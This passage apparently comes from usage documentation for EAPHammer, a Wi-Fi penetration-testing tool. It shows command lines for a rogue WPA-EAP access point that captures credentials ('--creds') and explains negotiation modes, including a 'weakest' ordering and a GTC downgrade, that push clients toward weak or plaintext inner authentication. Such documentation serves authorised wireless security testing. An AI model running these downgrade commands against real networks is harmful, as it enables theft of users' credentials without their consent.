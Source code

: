 ```bash
./eaphammer --interface wlan0 \
	--negotiate weakest \
	--auth wpa-eap \
	--essid example \
	--creds
```

This will instruct EAPHammer to suggest the following sequences of EAP methods during EAP negotiation:

	# Phase 1 (outer authentication)
	PEAP,TTLS,TLS,FAST

	# Phase 2 (inner authentication)
	GTC,TTLS-PAP,MD5,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,TTLS-MSCHAPV2,TTLS

Keep in mind that using this option may lead to long EAP negotiation times.

## Speed optimized approach (strongest to weakest)

In this mode, EAPHammer proposes the EAP methods that are most likely to succeed first:

```bash
./eaphammer --interface wlan0 \
	--negotiate speed \
	--auth wpa-eap \
	--essid example \
	--creds
```

This will instruct EAPHammer to suggest the following sequences of EAP methods during EAP negotiation:

	# Phase 1 (outer authentication)
	PEAP,TTLS,TLS,FAST

	# Phase 2 (inner authentication)
	MSCHAPV2,TTLS-MSCHAPV2,TTLS,TTLS-CHAP,GTC,TTLS-PAP,TTLS-MSCHAP,MD5

Use this mode if you have trouble getting clients to finish the EAP authentication process using the default mode.

## Explicit GTC downgrade

To execute [@W00Tock](https://twitter.com/W00Tock)'s highly efficient GTC downgrade implementation, use the `--negotiate gtc-downgrade` flag:

```bash
./eaphammer --interface wlan0 \
	--negotiate gtc-downgrade \
	--auth wpa-eap \
	--essid example \
	--creds
```
